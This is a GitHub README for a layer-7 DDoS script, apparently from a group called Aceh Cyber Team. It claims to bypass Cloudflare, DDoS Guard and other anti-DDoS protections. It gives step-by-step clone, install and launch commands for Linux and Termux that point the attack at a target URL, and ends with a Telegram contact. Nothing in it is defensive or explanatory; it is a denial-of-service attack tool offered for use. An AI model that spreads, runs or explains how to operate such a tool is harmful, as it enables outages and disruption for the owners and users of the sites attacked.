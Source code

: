 # dos
DDoS Script (DDoS Panel) with Multiple Bypass ( Cloudflare UAM,CAPTCHA,BFM,NOSEC / DDoS Guard / Google Shield / V Shield / Amazon / etc.. )

# DDOS LAYER7

LAYER7 BAYPASS CloudFlare js


Requirements
------------

    Git
    Node.Js


Usage LINUX OR Ubuntu
-----

    $ git clone https://github.com/Ro0TN3T/dosv2
    $ cd dosv2
    $ apt install nodejs -y
    $ unzip node_modules.zip
    $ npm install user-agents
    $ node tls.js https://target.com 60 1



   
Usage TERMUX
-----

    $ ln -s /sdcard
    $ cd sdcard
    $ git clone https://github.com/Ro0TN3T/dosv2
    $ cd dosv2
    $ pkg install nodejs -y
    $ unzip node_modules.zip
    $ npm install user-agents
    $ node tls.js https://target.com 60 1


Updating
--------

    # tls.js
    # cf.js BAYPASS CloudFlare
    # post.js BAYPASS CloudFlare
    


Contact
-------

Telegram Group : [Aceh Cyber Team]


[ACT]: https://t.me/AcehCyberTeam/
